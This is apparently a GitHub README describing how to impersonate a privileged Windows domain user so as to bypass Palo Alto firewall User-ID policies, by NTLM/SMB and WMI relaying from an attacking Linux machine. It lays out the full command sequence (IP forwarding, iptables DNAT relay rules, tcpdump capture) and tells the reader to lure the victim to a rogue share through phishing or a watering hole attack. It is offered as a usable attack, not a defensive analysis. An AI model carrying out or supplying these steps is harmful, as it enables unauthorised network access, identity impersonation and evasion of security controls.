 # IMU
Acquiring another identity to get through Palo Alto User-ID security policies.

If you are unable to access certain websites because they are restricted to a limited class of user then you can use this technique to gain access.  The steps described here allow an attacking Linux machine to impersonate another user's identity and trick a Palo Alto firewall into granting you access through a security policy.  The user's password is never recovered in this example; the method relies completely on relaying Windows protocols (WMI RPC and NetBIOS probes).

**The following diagram can be used to understand the scenario**<br />
![alt text](https://github.com/billchaison/IMU/blob/master/uidv.png)

**It is assumed that you have already accomplished the following**<br />
* Identified a privileged user (B).  You do not need to know the IP address of his machine at this point.
* Have network access from your attacking Linux machine (C).  The interface in this example is eth0.
* Know the IP address of a domain controller (D).

**Stage the attack**<br />
Enable routing on (C).<br />
`echo 1 > /proc/sys/net/ipv4/conf/eth0/forwarding`<br />
`echo 1 > /proc/sys/net/ipv4/ip_forward`

Configure relay on (C) to get an authentication event on (D).  First ensure that you do not have ports 135 and 445 listening on your attacking Linux machine.<br />
`iptables -t nat -A POSTROUTING -t nat -j MASQUERADE`<br />
`iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 445 -j DNAT --to-destination 10.0.111.10`

Start tcpdump on (C) to record the IP address of the machine (B) that VPRISKY is logged in to.<br />
`tcpdump -nn -vv -i eth0 port 445`

By some means (phishing, watering hole attack, ... whatever) get VPRISKY to visit a CIFS share on (C).  The request will be relayed to (D).<br />
`\\10.30.66.77\SYSVOL`<br />
The share name does not have to be valid on (D).  If it is not a valid share name the authentication will still take place but an access denied error will be returned to (B).

Once VPRISKY has relayed SMB traffic through (C) to (D) and you have observed the IP address for (B) then you need to stop tcpdump, tear down the iptables NAT rules and add the following new NAT rules.  The new rules will ensure that WMI and SMB probes coming from the management interface IP on (A) to your attacking machine (C) will be relayed to (B).  This leads the firewall (A) to think that VPRISKY is logged in to (C).<br />
`iptables -F -t nat`<br />
`iptables -t nat -A POSTROUTING -t nat -j MASQUERADE`<br />
`iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 135 -j DNAT --to-destination 10.20.101.141`<br />
`iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 445 -j DNAT --to-destination 10.20.101.141`

You may wish to monitor WMI and SMB packets on eth0 coming from the firewall's management IP address (A).<br />
`tcpdump -nn -vv -i eth0 port 135 or port 445`<br />
If you don't already know the IP address of the Palo Alto's management interface (10.10.22.33), now you do ... have fun with that.

**Accessing the internet**<br />
At this point the IP address of your attacking machine (C) appears to be used by VPRISKY.  The traffic monitor logs on (A) will show traffic from 10.30.66.77 as coming from CORP\VPRISKY.
